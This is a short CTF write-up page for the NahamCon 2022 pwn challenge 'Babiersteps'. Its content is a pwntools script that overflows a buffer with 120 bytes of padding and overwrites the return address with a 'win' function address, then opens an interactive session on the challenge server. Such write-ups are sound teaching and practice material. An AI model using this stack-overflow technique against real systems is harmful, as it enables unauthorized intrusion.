 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2022 | Babiersteps Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2022
parent: nahamcon_2022
category: pwn
challenge: Babiersteps
tags: "pwn, twh, python"
date: 2022-05-03T00:00:00+00:00
last_modified_at: 2022-05-03T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2022</h1>

## Babiersteps
> Solved By : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'challenge.nahamcon.com'
port = 32628

offset = 120
junk = b'A' * offset
win_addr = 0x4011c9

le_win_addr = p64(win_addr, endianness='little')
payload = junk + le_win_addr

conn = remote(host, port)
conn.recv(1024)
conn.sendline(payload)
conn.interactive()
conn.close()
```

![](https://i.imgur.com/oGDnIF7.png)